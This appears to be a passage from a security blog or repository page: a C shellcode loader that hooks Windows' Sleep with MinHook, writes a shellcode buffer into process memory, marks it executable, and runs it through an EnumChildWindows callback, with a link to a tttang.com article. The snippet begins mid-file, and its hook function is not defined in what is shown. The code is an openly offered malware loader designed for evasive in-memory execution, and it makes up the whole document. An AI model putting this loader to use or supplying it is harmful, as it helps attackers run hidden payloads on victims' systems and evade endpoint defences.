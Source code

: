 ```bash
}
BOOL HookTest() {
    if (MH_Initialize() != MH_OK)
    {
        return 1;
    }

    if (MH_CreateHookApiEx(
        L"kernel32.dll", "Sleep", &HookedSleep, &SleepTest) != MH_OK)
    {
        return 1;
    }

    if (MH_EnableHook(MH_ALL_HOOKS) != MH_OK)
    {
        return 1;
    }
}
int main()
{
    HookTest();
    unsigned char dll[263168] = {shellcode}
    SIZE_T size = sizeof(dll);
    SIZE_T bytesWritten = 0;
    DWORD oldProtect = 0;
    void* sh = VirtualAllocEx(GetCurrentProcess(), 0, (SIZE_T)size, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    WriteProcessMemory(GetCurrentProcess(), sh, dll, size, &bytesWritten);
    VirtualProtectEx(GetCurrentProcess(), sh, size, PAGE_EXECUTE_READ, &oldProtect);
    EnumChildWindows(NULL, (WNDENUMPROC)sh, NULL);

}
```

参考： 
[https://tttang.com/archive/1392/](https://tttang.com/archive/1392/)
